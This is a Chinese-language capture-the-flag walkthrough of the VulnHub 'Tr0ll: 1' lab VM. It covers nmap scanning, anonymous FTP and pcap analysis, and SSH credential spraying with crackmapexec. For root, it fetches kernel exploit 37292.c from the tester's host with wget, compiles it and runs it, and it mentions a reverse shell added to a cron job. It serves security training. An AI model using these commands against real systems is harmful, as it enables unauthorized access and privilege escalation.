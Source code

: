 # Tr0ll: 1

> [https://www.vulnhub.com/entry/tr0ll-1,100/](https://www.vulnhub.com/entry/tr0ll-1,100/)
> 

## 主机发现端口扫描

1. 探测存活主机，`154`为靶机
    
    ```php
    nmap -sP 192.168.75.0/24
    //
    Starting Nmap 7.93 ( https://nmap.org ) at 2024-09-27 08:50 CST
    Nmap scan report for 192.168.75.1
    Host is up (0.00026s latency).
    MAC Address: 00:50:56:C0:00:08 (VMware)
    Nmap scan report for 192.168.75.2
    Host is up (0.00032s latency).
    MAC Address: 00:50:56:FB:CA:45 (VMware)
    Nmap scan report for 192.168.75.154
    Host is up (0.00033s latency).
    MAC Address: 00:0C:29:39:E9:62 (VMware)
    Nmap scan report for 192.168.75.254
    Host is up (0.000079s latency).
    MAC Address: 00:50:56:FB:E7:F4 (VMware)
    Nmap scan report for 192.168.75.151
    Host is up.
    ```
    
2. 扫描主机所有端口
    
    ```php
    nmap -sT -min-rate 10000 -p- 192.168.75.154
    //
    Starting Nmap 7.93 ( https://nmap.org ) at 2024-09-27 08:50 CST
    Nmap scan report for 192.168.75.154
    Host is up (0.0018s latency).
    Not shown: 65532 closed tcp ports (conn-refused)
    PORT   STATE SERVICE
    21/tcp open  ftp
    22/tcp open  ssh
    80/tcp open  http
    MAC Address: 00:0C:29:39:E9:62 (VMware
    ```
    
3. 扫描服务版本及系统版本
    
    ```php
    nmap -sT -sV -O -p21,22,80 192.168.75.154
    //
    Starting Nmap 7.93 ( https://nmap.org ) at 2024-09-27 08:51 CST
    Nmap scan report for 192.168.75.154
    Host is up (0.0026s latency).
    
    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     vsftpd 3.0.2
    22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
    80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
    MAC Address: 00:0C:29:39:E9:62 (VMware)
    Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
    Device type: general purpose
    Running: Linux 3.X|4.X
    OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
    OS details: Linux 3.2 - 4.9
    Network Distance: 1 hop
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
    ```
    
4. 扫描漏洞
    
    ```sql
    nmap -script=vuln -p21,22,80 192.168.75.154
    Starting Nmap 7.93 ( https://nmap.org ) at 2024-09-27 08:52 CST
    Nmap scan report for 192.168.75.154
    Host is up (0.00081s latency).
    
    PORT   STATE SERVICE
    21/tcp open  ftp
    22/tcp open  ssh
    80/tcp open  http
    | http-slowloris-check: 
    |   VULNERABLE:
    |   Slowloris DOS attack
    |     State: LIKELY VULNERABLE
    |     IDs:  CVE:CVE-2007-6750
    |       Slowloris tries to keep many connections to the target web server open and hold
    |       them open as long as possible.  It accomplishes this by opening connections to
    |       the target web server and sending a partial request. By doing so, it starves
    |       the http server's resources causing Denial Of Service.
    |       
    |     Disclosure date: 2009-09-17
    |     References:
    |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
    |_      http://ha.ckers.org/slowloris/
    |_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
    | http-enum: 
    |   /robots.txt: Robots file
    |_  /secret/: Potentially interesting folder
    |_http-dombased-xss: Couldn't find any DOM based XSS.
    |_http-csrf: Couldn't find any CSRF vulnerabilities.
    MAC Address: 00:0C:29:39:E9:62 (VMware)
    ```
    

## FTP

1. 使用匿名用户登录
2. 存在一个pcap文件，使用wireshark打开，观察此文件
    
    ![image.png](image%2020.png)
    
    应该是存在一个`secret_stuff.txt`文件
    
3. 找到传输`secret_stuff.txt` 的数据包，能看到明文内容
    
    ![image.png](image%2021.png)
    
    ```sql
    Well, well, well, aren't you just a clever little devil, you almost found the sup3rs3cr3tdirlol
    Sucks, you were so close... gotta TRY HARDER!
    ```
    
    信息：`sup3rs3cr3tdirlol` 可能很重要
    

## web渗透

1. 访问主页
    
    ![image.png](image%2022.png)
    
    翻译过来是：`嘿，非hacker。问题？`
    
2. FTP获取到的信息 `sup3rs3cr3tdirlol` 尝试访问 `/sup3rs3cr3tdirlol` 存在文件`roflmao`，下载下载
    
    使用notepad打开提示：`Find address 0x0856BF to proceed` ，文件头是elf文件，是linux下的可执行文件
    
    使用`010Editor`找不到这个地址，尝试在url操作，访问成功 6
    
3. 来到`/0x0856BF` ，存在几个文本文件
    
    ```sql
    ## /good_luck/which_one_lol.txt
    maleus
    ps-aux
    felux
    Eagle11
    genphlux < -- Definitely not this one
    usmc8892
    blawrg
    wytshadow
    vis1t0r
    overflow
    ```
    
    ```sql
    ##/this_folder_contains_the_password/Pass.txt
    Good_job_:)
    ```
    
    是账号密码，靶机扫描出了`22`端口，所以应该尝试`ssh`登录，但是web上还有一些让人感兴趣的路径没访问（别访问了，给你来一句 `U MAD？`）
    
4. 尝试SSH登录
    
    我一个一个试没事出来，别学我可以使用命令
    
    ```sql
    crackmapexec ssh 192.168.75.154 -u which_one_lol.txt -p Pass.txt --continue-on-success 
    ```
    
    依旧没破解出来，密码真的是`Good_job_:)`吗？有没有可能是`Pass.txt`
    
    `overflow + Pass.txt` 成功登录
    

## 提权

1. 查看权限
    
    ```sql
    $ whoami
    overflow
    //
    $ sudo -
    [sudo] password for overflow: 
    Sorry, user overflow may not run sudo on troll.
    //
    $ ip a
    1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default 
        link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
        inet 127.0.0.1/8 scope host lo
           valid_lft forever preferred_lft forever
        inet6 ::1/128 scope host 
           valid_lft forever preferred_lft forever
    2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 1000
        link/ether 00:0c:29:39:e9:62 brd ff:ff:ff:ff:ff:ff
        inet 192.168.75.154/24 brd 192.168.75.255 scope global eth0
           valid_lft forever preferred_lft forever
        inet6 fe80::20c:29ff:fe39:e962/64 scope link 
           valid_lft forever preferred_lft forever
    //
    $ uname -a
    Linux troll 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:12 UTC 2014 i686 i686 i686 GNU/Linux
    ```
    
2. 不一会root给我踢出来了，感觉有定时任务，但我没找到，因为不给访问
    
    ```sql
    Broadcast Message from root@trol                                               
            (somewhere) at 19:15 ...                                               
                                                                                   
    TIMES UP LOL!                                                                  
                                                                                   
    Connection to 192.168.75.154 closed by remote host.
    Connection to 192.168.75.154 closed.
    ```
    
3. 别的方法尝试了，最后尝试内核漏洞
    
    ```sql
    searchsploit 3.13.0    
    //
    ----------------------------------------------------------------------------------------- ---------------------------------
     Exploit Title                                                                           |  Path
    ----------------------------------------------------------------------------------------- ---------------------------------
    Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privileg | linux/local/37292.c
    Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privileg | linux/local/37293.txt
    Unified Remote 3.13.0 - Remote Code Execution (RCE)                                      | windows/remote/51309.py
    ----------------------------------------------------------------------------------------- ---------------------------------
    Shellcodes: No Results
    ```
    
    将`37292.c`拉取下来，然后打开服务器方便靶机下载
    
    ```sql
    cd /tmp
    wget http://192.168.75.151/37292.c
    gcc 37292.c -o 37292  
    ./37292
    ```
    
    获得root
    
    ```sql
    whoami
    root
    ```
    

## 思路

直接讲提权，登陆一会被root弹出去肯定是存在crontab定时任务的，但是因为我cat /etc/crontab被权限拒绝后就停止这个思路了，查看红队笔记WP，寻找cronlog这种模糊字样最后找到定时任务，最后追加反弹shell代码即可